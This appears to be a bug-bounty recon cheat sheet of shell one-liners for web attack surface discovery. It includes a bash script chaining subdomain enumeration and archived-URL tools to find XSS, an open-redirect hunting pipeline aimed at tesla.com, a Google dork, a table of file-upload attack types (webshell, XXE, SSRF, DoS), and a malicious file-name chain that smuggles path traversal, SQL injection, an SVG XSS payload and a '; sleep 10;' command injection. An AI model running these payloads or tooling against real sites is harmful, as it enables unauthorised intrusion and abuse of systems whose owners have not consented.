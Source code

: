 # MORE PARAMETERS
https://github.com/1ndianl33t/Gf-Patterns

# Massive XSS
```
#!/bin/bash
# $1 => example.domain

subfinder -d $1 -o domains_subfinder_$1
amass enum --passive -d $1 -o domains_$1

cat domains_subfinder_$1 | tee -a domains_$1
cat domains_$1 | filter-resolved | tee -a domains_$1.txt

cat domains_$1.txt | ~/go/bin/httprobe -p http:81 -p http:8080 -p https:8443 | waybackurls | kxss | tee xss.txt
```
# Masive Top Parameters search
```
TBA 
echo "http://tesla.com" | waybackurls | httpx -silent -timeout 2 -threads 100 | gf redirect | anew
```
# Juicy GoogleDorks
```
site:example.com inurl:.cgi?
```
# File Upload and what to search
```
ASP / ASPX / PHP5 / PHP / PHP3: Webshell / RCE
SVG: Stored XSS / SSRF / XXE
GIF: Stored XSS / SSRF
CSV: CSV injection
XML: XXE
AVI: LFI / SSRF
HTML / JS : HTML injection / XSS / Open redirect
PNG / JPEG: Pixel flood attack (DoS)
ZIP: RCE via LFI / DoS
PDF / PPTX: SSRF / BLIND XXE
```
# File upload chain
```
../../../tmp/lol.png —> for path traversal
sleep(10)-- -.jpg —> for SQL injection
<svg onload=alert(document.domain)>.jpg/png —> for XSS
; sleep 10; —> for command injections
```
# Find JavaScript Files in Target.com
```
echo target.com | gau | grep '\.js$' | httpx -status-code -mc 200 -content-type | grep 'application/javascript'
or
cat domains | httpx -silent | subjs | anew
```
# Extract endpoints from \*.js 